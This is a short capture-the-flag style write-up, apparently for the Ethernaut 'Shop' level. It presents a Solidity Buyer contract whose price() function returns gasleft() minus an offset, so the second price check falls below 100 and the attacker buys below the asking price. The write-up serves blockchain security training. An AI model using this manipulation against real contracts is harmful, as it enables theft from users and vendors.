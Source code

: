 one possible solution would be to read the `isSold` variable from the `Shop` contract and return a different price value, but the call gas isn't enough. My idea here is to use `gasleft()` with an offset for the price; the second call at the end of the contract should have less gas left, enabling the `Buyer` contract to return a value < 100.

```
contract Buyer {
    Shop shop;
    uint public offset;

    function price() public view returns (uint) {
        return gasleft() - offset;
    }

    function buy() public {
        shop.buy();
    }

    function setOffset(uint _offset) public {
        offset = _offset;
    }

    function setShop(address instance) public {
        shop = Shop(instance);
    }
}
```

I first test it with `offset = 0` to get an initial value for the price. Then, take that value and set `offset = value - 100`. The first call should be 100, but the second (assuming a tight gas value for the tx) will be < 100.
